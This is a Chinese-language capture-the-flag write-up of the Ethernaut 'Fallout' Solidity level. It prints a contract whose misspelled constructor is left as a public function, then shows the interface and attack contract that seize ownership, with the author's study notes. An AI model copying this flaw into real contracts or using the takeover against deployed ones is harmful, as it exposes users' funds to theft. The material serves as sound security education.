

# 2-Fallout

# 问题描述

Claim ownership of the contract below to complete this level.

Things that might help

- Solidity Remix IDE

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

# 解题思路

这道题目其实非常的简单，`Fal1out`函数拼写错误变成了一个public的function，并且能够让call这个`owner=msg.sender`

1. 直接在console调用这个函数即可，然后就可以完成任务
   
    
    
2. 掌握一下写代码的思路，直接写`interface`即可，然后部署之后直接用Remix的`At Address`对其进行互动，和在console里面输入上面方法是一样的
   
    ```solidity
    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    interface Ifallout {
        function Fal1out() external payable;
    }
    ```
    

---

# 小白的思考

这道题目虽然很简单，但是其实花了蛮多的时间的。主要是一边做在一遍思考，理解之后豁然开朗，并且搞懂了很多很基础的东西。记录一下笔记。

## Constructor

这题从思路上来讲很简单，刚开始不明白为什么要设置这样的题目，以及为什么`Fal1out` 是个拼写错误以及上面有constructor的注释。后来才发现要因为我是从0.8开始学的，这涉及到一些历史原因。

> 在 Solidity 0.4.22 之前，构造函数的定义方式是使用与合约同名的函数名（即构造函数的名称必须与合约的名称一致）。然而，从 Solidity 0.4.22 开始，引入了 constructor 关键字，构造函数应使用 constructor 定义，而不是与合约同名的函数。
> 

> 函数名 Fal1out 看起来像是构造函数，但由于拼写错误（“l”被替换为“1”），它实际上只是一个普通的公共函数，而不是构造函数。这样的话，任何人都可以调用这个函数，而不是仅仅在合约部署时被调用。
> 

## 和合约沟通的方式

- 从第一种解法了解如何从console直接通过abi互动
- 第二种方法了解了如何通过remix部署interface，然后直接通过`at address`来调用实例中的函数

在 Solidity 中，当你创建一个接口时，只需要定义你实际需要调用的函数。接口的目的是定义与目标合约的交互方式，所以只要包含你计划调用的那些函数就可以了，其他函数可以忽略。

**具体原因：**

1. **函数选择**：每个函数都有一个唯一的函数选择器（msg.sig），它是函数签名（函数名和参数类型）的前四个字节。因此，只要你在接口中定义了与目标合约中相同签名的函数，调用时就会匹配并调用目标合约中的对应函数。
2. **接口的最小化**：如果你只需要调用一个或几个函数，那么将它们写入接口就足够了。这不仅减少了代码的复杂性，还提高了代码的可读性和维护性。

## 关于有payable修饰词的函数的误解

1. 之前以为在调用含有payable修饰词的函数时一定要发送一点ether，但是其实不需要，并不是强制性的
2. 在写攻击函数的时候，constructor上面很自然的带了payable。但是如果在部署合约的时候不给一些初始的ether，其实没有必要。[熟悉一下](https://www.notion.so/payable-61ecc48c54dc4dcea5bf5d1f4d01e2bc?pvs=21)

## 关于攻击函数

因为是做完第10个挑战回来再写代码的，刚开始写了下面这么个代码。

感觉上是可行的，但是实际上就是过不了关。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface Ifallout {
    function Fal1out() external payable;
}

contract AttackFallout {
    Ifallout public victim;

    constructor(address _victimAddress) {
        victim = Ifallout(_victimAddress);
    } 

    function attack() public {
        // 调用 victim 合约中的 Fal1out 函数
        victim.Fal1out();
    }
}
```

后来仔细想了想，才明白自己的问题出在哪里。

我现部署了上面这个攻击合约，然后通过共计合约去调用`Fal1out`函数，这样导致owner变成了我的共计合约，而不是我，所以无法过关。

但是从攻击的角度来讲，这样也不是不行。再接再厉吧，之前都没有好好思考过这个问题。

```solidity
一个小破题引发了如此多的思考，但是起码思路是越来越清晰的。
```